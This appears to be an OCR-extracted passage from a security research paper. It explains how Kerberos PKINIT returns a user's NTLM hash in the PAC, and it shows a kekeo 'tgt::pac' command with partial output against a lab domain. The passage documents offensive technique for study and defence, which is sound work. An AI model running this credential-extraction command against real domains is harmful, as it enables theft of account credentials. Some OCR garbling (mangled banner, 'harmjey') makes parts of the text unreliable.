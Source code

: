 Fiqure 28 - Tweet Demonstrating Mimikatz Obtaining NTLM Credentials via PKINIT

How is this happening? In MS-PKCA (Microsoft's Kerberos PKINIT technical specification) section "1.4 Relationship to Other Protocols" states96:

> "In order to support NTLM authentication [MS-NLMP] for applications connecting to network services that do not support Kerberos authentication, when PKCA is used, the KDC returns the user's NTLM one-way function (OWF) in the privilege attribute certificate (PAC) PAC CREDENTIAL INFO buffer"

So, if account authenticates and gets a TGT through PKINIT, there is a built-in "failsafe" that allows the current host to obtain our NTLM hash from the TGT to support legacy authentication. This

involves decrypting a PAC_CREDENTIAL_DATA structure that is a Network Data Representation (NDR) serialized representation of the NTLM plaintext. NDR is notoriously a giant pain to deal with outside of C/C++, but luckily for us Benjamin Delpy has already implemented this in Kekeo, with the tgt: : pac function:

| C:\Tools>kekeo.exe |  |
| --- | --- |
| kekeo 2.1 (x64) built on Jul 18 2020 22:46:28 |  |
| ('>- 1 | "A La Vie, A L'Amour" |
| K | /水 家 家 |
| Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) |  |
| LV (oe.eo) |  |
| with 10 modules * * * / |  |
| kekeo # tgt::pac /caname:theshire-DC-CA /subject:harmj0y /castore:current user /domain:theshire.local |  |
| Realm | : theshire.local (theshire) |
| User | : harmj0y@theshire.local (harmj0y) |
| CName | : harmj0y@theshire.local [KRB NT ENTERPRISE PRINCIPAL (10)] |
| SName | : krbtgt/theshire.local [KRB NT SRV INST (2)] |
| Need PAC : Yes |  |
| Auth mode : RSA |  |
| [kdc] name: dc.theshire.local (auto) |  |
| [kdc] addr: 192.168.50.100 (auto) |  |
| *** Validation Informations *** |  |
| LogonTime | 01d7149d1e300fec - 3/8/2021 8:31:47 PM |
| LogoffTime | 7fffffffffffffffff - |
| KickOffTime | 7fffffffffffffffffff - |
| PasswordLastSet | 01d51743cbca1bae - 5/30/2019 4:00:02 PM |
| PasswordCanChange | 01d5180cf633dbae - 5/31/2019 4:00:02 PM |
| PasswordMustChange | 7fffffffffffffffff - |
| EffectiveName | harmj0y |
| FullName | harmjey |
| LogonScript |  |
| ProfilePath |  |
| HomeDirectory |  |